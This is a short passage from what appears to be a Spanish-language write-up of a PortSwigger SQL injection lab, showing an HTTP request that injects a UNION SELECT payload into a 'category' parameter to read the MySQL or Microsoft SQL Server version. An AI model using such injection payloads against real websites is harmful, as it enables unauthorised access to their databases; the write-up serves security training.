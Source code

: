 <img src="/img/articulos/sqli-portswigger/34.png" alt="">

* **Explotación**

Ahora hay que hacer lo mismo pero para MySQL y Microsoft

```null
GET /filter?category=Gifts'+union+select+NULL,@@version--+- HTTP/2
```

<img src="/img/articulos/sqli-portswigger/35.png" alt="">
